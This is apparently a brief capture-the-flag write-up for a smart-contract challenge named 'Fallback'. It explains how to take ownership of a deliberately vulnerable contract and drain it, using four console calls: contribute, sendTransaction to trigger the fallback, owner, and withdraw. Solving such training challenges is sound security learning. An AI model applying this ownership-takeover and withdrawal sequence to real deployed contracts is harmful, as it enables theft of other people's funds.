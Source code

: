 # Fallback

In this challenge we must utalize the contribute function (to fulfill a later requirement), then the fallback function(w/ sendTransaction) and finally as the new owner, we can withdraw all money from the contract.

```contract.contribute({value:1})```

```contract.sendTransaction({value:1})```

```contract.owner()```

```contract.withdraw()```